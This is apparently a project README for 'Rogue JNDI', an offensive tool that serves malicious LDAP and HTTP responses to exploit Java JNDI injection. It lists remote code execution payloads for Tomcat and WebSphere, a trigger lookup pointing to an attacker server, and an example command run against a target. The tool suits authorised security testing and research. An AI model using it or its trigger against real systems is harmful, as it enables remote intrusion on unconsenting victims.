 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers localy and then trigger a JNDI resolution on the vulnerable client, e.g.: 
```java
InitialContext.lookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server. 
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: 
                   /Applications/Calculator.app/Contents/MacOS/Calculator) 
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 
                   192.168.1.10) 
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -h, --help     Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.0.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```


### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog

### Authors
[Michael Stepankin](https://twitter.com/artsploit), Veracode Research
